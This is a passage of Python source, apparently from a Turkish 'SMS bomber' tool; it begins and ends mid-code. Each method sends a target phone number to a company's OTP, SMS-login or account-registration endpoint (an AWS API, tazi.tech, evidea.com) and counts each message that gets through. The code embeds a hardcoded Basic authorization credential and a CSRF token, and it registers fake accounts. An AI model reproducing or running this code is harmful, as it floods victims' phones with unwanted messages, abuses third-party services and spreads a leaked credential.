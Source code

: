                 raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> suiste.com")
                
    
    #KimGbIster
    def KimGb(self):
        try:
            r = requests.post("https://3uptzlakwi.execute-api.eu-west-1.amazonaws.com:443/api/auth/send-otp", json={"msisdn": f"90{self.phone}"}, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> 3uptzlakwi.execute-api.eu-west-1.amazonaws.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> 3uptzlakwi.execute-api.eu-west-1.amazonaws.com")
            

    #tazi.tech
    def Tazi(self):
        try:
            url = "https://mobileapiv2.tazi.tech:443/C08467681C6844CFA6DA240D51C8AA8C/uyev2/smslogin"
            headers = {"Accept": "application/json, text/plain, */*", "Content-Type": "application/json;charset=utf-8", "Accept-Encoding": "gzip, deflate", "User-Agent": "Taz%C4%B1/3 CFNetwork/1335.0.3 Darwin/21.6.0", "Accept-Language": "tr-TR,tr;q=0.9", "Authorization": "Basic dGF6aV91c3Jfc3NsOjM5NTA3RjI4Qzk2MjRDQ0I4QjVBQTg2RUQxOUE4MDFD"}
            json={"cep_tel": self.phone, "cep_tel_ulkekod": "90"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if (r.json()["kod"]) == "0000":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> mobileapiv2.tazi.tech")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> mobileapiv2.tazi.tech")
            
    
    #evidea.com
    def Evidea(self):
        try:
            url = "https://www.evidea.com:443/users/register/"
            headers = {"Content-Type": "multipart/form-data; boundary=fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi", "X-Project-Name": "undefined", "Accept": "application/json, text/plain, */*", "X-App-Type": "akinon-mobile", "X-Requested-With": "XMLHttpRequest", "Accept-Language": "tr-TR,tr;q=0.9", "Cache-Control": "no-store", "Accept-Encoding": "gzip, deflate", "X-App-Device": "ios", "Referer": "https://www.evidea.com/", "User-Agent": "Evidea/1 CFNetwork/1335.0.3 Darwin/21.6.0", "X-Csrftoken": "7NdJbWSYnOdm70YVLIyzmylZwWbqLFbtsrcCQdLAEbnx7a5Tq4njjS3gEElZxYps"}
            data = f"--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"first_name\"\r\n\r\nMemati\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"last_name\"\r\n\r\nBas\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"email\"\r\n\r\n{self.mail}\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"email_allowed\"\r\n\r\nfalse\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"sms_allowed\"\r\n\r\ntrue\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"password\"\r\n\r\n31ABC..abc31\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"phone\"\r\n\r\n0{self.phone}\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi\r\ncontent-disposition: form-data; name=\"confirm\"\r\n\r\ntrue\r\n--fDlwSzkZU9DW5MctIxOi4EIsYB9LKMR1zyb5dOuiJpjpQoK1VPjSyqdxHfqPdm3iHaKczi--\r\n"
            r = requests.post(url, headers=headers, data=data, timeout=6)      
            if r.status_code == 202:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> evidea.com")